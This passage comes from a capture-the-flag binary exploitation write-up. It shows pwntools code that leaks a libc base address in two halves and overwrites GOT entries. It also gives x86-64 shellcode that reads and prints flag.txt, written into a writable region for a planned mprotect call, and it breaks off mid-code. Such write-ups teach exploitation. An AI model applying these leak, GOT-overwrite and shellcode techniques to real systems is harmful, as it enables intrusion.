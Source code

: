 ```py
p.recvuntil(b'challenge?\n')
p.sendline(b'nobody asked')

pause()
```

The issue is that since our information leak is only 4 bytes, we only got the lower 4 bytes of libc. To get the higher 4 bytes, we have to leak again.
```py
p.recvuntil(b'where?\n')
p.sendline(str(ADDR_PUTS_GPLT+4).encode('utf-8'))
p.recvuntil(b'there:\n')
tophalf = int(p.recv(1024).split(b'\n')[0].decode('utf-8'))
LIBC_BASE = (tophalf << 32) + LIBC_BASE
log.info("libc at: " + hex(LIBC_BASE))
assert(LIBC_BASE & 0xfff == 0)
p.sendline(str(ADDR_EXIT_GPLT).encode('utf-8'))
p.sendline(str(ADDR_MAIN).encode('utf-8'))
p.recvuntil(b'challenge?\n')
p.sendline(b'nobody asked')

pause()
```

Great, we now have the entire libc at our disposal to call, but only by replacing specific functions. Instead of worrying about that, let's first create some shellcode to read and print the flag. Due to no rwx segment protections, the shellcode can't be executed immediately, but if we can call `mprotect` somehow, that would let our shellcode run.

I decided to create shellcode at the address 0x404600, as it was an unused and writable section. The first 9 bytes were "flag.txt\x00", and then followed by shellcode (so the shellcode itself starts at 0x404609). A 64 bit syscall table can be found [here](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) to help figure out what the registers should contain.
```asm
 move rdi, 0x404600;
 xor esi, esi;
 xor edx, edx;
 mov eax, 2;
 syscall ;  <=== int $rax = open("flag.txt", 0, 0);
 mov edi, eax;
 mov esi, 0x404500;
 mov edx, 80;
 xor eax, eax;
 syscall ;  <== read(fd, 0x404500, 80);
 mov edi, 1;
 mov esi, 0x404500;
 mov edx, 80;
 mov eax, 1;
 syscall ;  <== write(stdout, 0x404500, 80);
```

Then we have to write the shellcode 4 bytes at a time, to the designated memory location.
```py
shellcode = b'flag.txt\x00' + asm("""  mov rdi, 0x404600;
 xor esi, esi;
 xor edx, edx;
 mov eax, 2;
 syscall ;
 mov edi, eax;
 mov esi, 0x404500;
 mov edx, 80;
 xor eax, eax;
 syscall ;
 mov edi, 1;
 mov esi, 0x404500;
 mov edx, 80;
```